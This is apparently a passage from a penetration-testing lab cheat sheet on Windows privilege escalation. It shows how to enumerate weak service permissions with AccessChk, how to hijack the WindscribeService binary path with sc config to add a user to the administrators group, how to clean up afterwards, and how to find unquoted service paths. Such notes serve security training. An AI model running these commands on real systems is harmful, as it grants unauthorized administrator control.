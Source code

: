 ## 🛠️ Weak Service Permissions

### Service Permission Enumeration
```cmd
# Check service permissions with AccessChk
accesschk.exe /accepteula -quvcw WindscribeService

# Vulnerable output:
WindscribeService
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS    # ← Full control for all users
```

### Binary Path Modification Attack
```cmd
# Check current local admin group
net localgroup administrators

# Modify service binary path
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

# Stop and start service to execute command
sc stop WindscribeService
sc start WindscribeService

# Verify privilege escalation
net localgroup administrators
# htb-student should now be listed
```

### Service Cleanup
```cmd
# Restore original binary path
sc config WindscribeService binpath="C:\Program Files (x86)\Windscribe\WindscribeService.exe"

# Start service normally
sc start WindscribeService
```

## 📁 Unquoted Service Path

### Path Discovery
```cmd
# Find unquoted service paths
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Example vulnerable path:
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
```
